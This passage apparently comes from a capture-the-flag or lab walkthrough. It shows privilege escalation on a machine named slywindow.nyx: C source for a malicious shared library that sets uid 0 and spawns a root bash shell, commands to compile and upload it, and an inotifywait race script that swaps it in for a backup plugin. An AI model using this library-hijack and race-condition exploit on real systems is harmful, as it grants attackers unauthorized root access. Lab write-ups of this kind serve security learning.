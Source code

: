 ```c
#include<stdio.h>
#include<stdlib.h>
#include<unistd.h>

void inject()__attribute__((constructor));

void inject()
{
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

We compile the source code to obtain a malicious shared library called `backup_plugin_bad.so`.

```bash
gcc -shared -fPIC -o backup_plugin_bad.so backup_plugin.c  
```

Next, we transfer the malicious library to the victim server. From the attacking machine, located in the directory where the library was compiled, we execute:

```bash
scp backup_plugin_bad.so tocu@slywindow.nyx:/opt/backup
```

In parallel, on the server, we develop a bash script that automates the replacement of the legitimate library with the malicious version at the precise moment to maximize the probability of attack success.

```bash
#!/usr/bin/env bash
# toctou.sh

DIR="/opt/backup"
ORIG="$DIR/backup_plugin.so"
BAD="$DIR/backup_plugin_bad.so"
OK="$DIR/backup_plugin_ok.so"

# Espera al PRIMER cierre (lectura o escritura) y termina
inotifywait -qq -e close_write -e close_nowrite "$ORIG"

# Renombra lo más rápido posible (dos syscalls rename(2) atómicas)
mv "$ORIG" "$OK"    # guarda la copia buena
mv "$BAD"  "$ORIG"  # coloca la versión _bad en su lugar
```

Two terminals must be opened as user tocu on the server. In the first one, execution permissions are granted to the `toctou.sh` script and it is executed.

```bash
chmod +x ./toctou.sh 
./toctou.sh 
```
